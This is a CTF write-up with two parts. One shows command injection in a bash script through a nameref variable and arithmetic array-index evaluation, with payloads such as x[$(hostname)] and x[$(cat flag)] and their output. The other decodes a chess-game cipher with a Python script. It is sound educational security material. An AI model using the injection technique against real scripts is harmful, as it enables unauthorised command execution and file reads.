

# CTF League - Just try and break it

## Escape It
For this flag we were provided with the following bash script, and a form that allowed us to submit the inputs to the `read` commands.
```bash
#!/usr/bin/env -iS bash

printf "VAR: "
read VAR < <(head -n 1 | tr -cd 'a-zA-Z0-9')
printf "VAL: "
read VAL < <(head -n 1)
echo "$VAR"
echo "$VAL"
declare -n PTR="$VAR"
PTR="$VAL"
echo "$PTR"
```

Analyzing the script, it first reads input from stdin and stores them in variables `VAR` and `VAL`. The input for `VAR` was piped through `tr` to remove any non alphanumeric characters from the input, so we immediately know we can't use `VAR` to hold any commands that require `-` flags, or `/file/paths`. 

The program would then print those variables, with expansion via due to the double quotes. Then the program uses `declare` to create a variable PTR, set to our controlled `VAR` input, then reassigns it to out `VAL` input, before echoing it again. Using `declare -n` creates a variable of type `nameref`, which is essentially a pointer, rather than pure value. 

Since bash is weakly typed, it can result in some interesting behavior if a nameref is set as one type, then reassigned to a different type. For example if we provide `VAR` a special bash variable like `BASHPID`, which expands to the PID of the base shell process, then we can see it is expanded in the final `echo "$PTR"`, but not the `echo "$VAR"`

```bash
$ ./escape
VAR: BASHPID
VAL: asdf
BASHPID
asdf
13847
```

But we reassigned PTR to VAL which is "asdf", so why is BASHPID even expanded there? It turns out that is because `BASHPID` is read only, so any write fails instantly, we can instead use a writeable bash variable such as `SECONDS` or `RANDOM`. Because `SECONDS` is an integer value, when we reassign `PTR` to `"$VAL"`, it will try to interpret the expression arithmetically, so we need to find some input for VAL that can be executed arithmetically, providing us some useful info. Bash has standard `array[]` syntax, and will evaluate whatever you put in the index` []` to try and find a mathematical index, so if we do something like `x[((2+2))]`, bash will evaluate `2+2=4` then try to read that index, similarly we can use `x[$(hostname)]` syntax and bash will evaluate the `hostname` command, then parse it's input as an arithmetic value to index the array.

```bash
SECONDS
x[$(hostname)]
1
./escape.sh: line 10: 2e0746e7963e: value too great for base (error token is "2e0746e7963e")
```

Now we have code execution of (almost) arbitrary bash commands, any command thats output cannot be parsed to a potential array index will output some error message, such as `ls`:

```
SECONDS
x[$(ls)]
0
./escape.sh: line 10: app.py
escape.sh
flag
requirements.txt
run_escape.py
static
templates: syntax error: invalid arithmetic operator (error token is ".py
escape.sh
flag
requirements.txt
run_escape.py
static
templates")
```

Now we can see there is a file in our cwd called `flag`, we can run `cat flag` with `x[$(cat flag)]` and get the flag.

## Break It
For part 2 of this challenge, we have a ciphertext `9jf4z5qEGuuDahaTIIn47uvNquQN2tRGM2HMveuhpYXYdy1yhs9Fqs`, and a photo of a chessboard. Which when inspecting the exif data of the photo we can see the `Title` field is the PGN notation of a chess game.



There are number of ways data could be encoded in a chess match, but a hint was provided that the squares (e.g. a3, c7) could be interpreted as base64 values, we devised a way to convert a squares index to base64 using `dict(zip(squareId, b64chars))`, that would translate each space on a chess board to a respective base64 character.

Encoded in the PGN notation is the location of every move by within this squareId format, we parsed this using regex expressions, removing castleling because the `O-O` syntax doesn't reasonably translate.

```py
# Filter Moves to remove castle
moves = re.sub(r'\d+\.', '', pgn).split()
moves = [m for m in moves if m != 'O-O']

# Parse the board squares from the moves
squares= []
for move in moves:
    match = re.search(r'([a-h][1-8])', move)
    squares.append(match.group(1))

# Convert the board squares to a base64 key
key = "".join([square_to_b64[sq] for sq in squares])
```
We were then able to determine that this base64 string was the "encryption" key, by xoring the board squares base64 representation and the provided ciphertext which revealed the second flag.

### Complete Script
```py
import re
import base64

base64_chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"

board_row = [
    "a8", "b8", "c8", "d8", "e8", "f8", "g8", "h8",
    "a7", "b7", "c7", "d7", "e7", "f7", "g7", "h7",
    "a6", "b6", "c6", "d6", "e6", "f6", "g6", "h6",
    "a5", "b5", "c5", "d5", "e5", "f5", "g5", "h5",
    "a4", "b4", "c4", "d4", "e4", "f4", "g4", "h4",
    "a3", "b3", "c3", "d3", "e3", "f3", "g3", "h3",
    "a2", "b2", "c2", "d2", "e2", "f2", "g2", "h2",
    "a1", "b1", "c1", "d1", "e1", "f1", "g1", "h1"
]

square_to_b64 = dict(zip(board_row, base64_chars))

def xor_b64_strings(str1, str2):
    res = []
    for i in range(len(str1)):
        res.append(base64_chars[base64_chars.index(str1[i]) ^ base64_chars.index(str2[i])])
    return "".join(res)

ciphertext = "9jf4z5qEGuuDahaTIIn47uvNquQN2tRGM2HMveuhpYXYdy1yhs9Fqs"

pgn = "1.Nf3 Nf6 2.c4 g6 3.Nc3 Bg7 4.d4 O-O 5.Bf4 d5 6.Qb3 dxc4 7.Qxc4 c6 8.e4 Nbd7 9.Rd1 Nb6 10.Qc5 Bg4 11.Bg5 Na4 12.Qa3 Nxc3 13.bxc3 Nxe4 14.Bxe7 Qb6 15.Bc4 Nxc3 16.Bc5 Rfe8+ 17.Kf1 Be6 18.Bxb6 Bxc4+ 19.Kg1 Ne2+ 20.Kf1 Nxd4+ 21.Kg1 Ne2+ 22.Kf1 Nc3+ 23.Kg1 axb6 24.Qb4 Ra4 25.Qxb6 Nxd1 26.h3 Rxa2 27.Kh2 Nxf2 28.Re1 Rxe1 29.Qd8+ Bf8 30.Nxe1 Bd5 31.Nf3 Ne4 32.Qb8 b5 33.h4 h5 34.Ne5 Kg7 35.Kg1 Bc5+ 36.Kf1 Ng3+ 37.Ke1 Bb4+ 38.Kd1 Bb3+ 39.Kc1 Ne2+ 40.Kb1 Nc3+"

# Filter Moves to remove castle
moves = re.sub(r'\d+\.', '', pgn).split()
moves = [m for m in moves if m != 'O-O']

# Parse the board squares from the moves
squares= []
for move in moves:
    match = re.search(r'([a-h][1-8])', move)
    squares.append(match.group(1))

# Convert the board squares to a base64 key
key = "".join([square_to_b64[sq] for sq in squares])
b64_plaintext = xor_b64_strings(ciphertext, key[:len(ciphertext)])

print("base64 result:", b64_plaintext)
try:
    # Need to append "==" to pad for valid base64 len
    print('decoded base64:', base64.b64decode(b64_plaintext + "=="))
except: 
    print('failed decoding base64 plaintext')

```
